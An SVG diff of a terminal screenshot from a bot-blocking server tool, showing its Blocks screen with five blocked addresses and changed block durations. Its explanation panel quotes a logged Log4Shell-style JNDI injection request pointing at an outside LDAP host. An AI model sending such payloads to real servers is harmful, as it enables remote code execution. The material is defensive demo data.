

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
  <text x="87.6" y="25.5" fill="#6b7c8c" textLength="126.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.0.15  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">console</text>
  <text x="574.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="591.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="642.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="658.8" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="742.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="759.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="810.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="826.8" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
-   <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 6d    </text>
+   <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
-   <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 4d    </text>
+   <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
-   <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 4d    </text>
+   <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
-   <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 4d    </text>
+   <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="566.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">help</text>
  <text x="616.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
  <text x="633.6" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
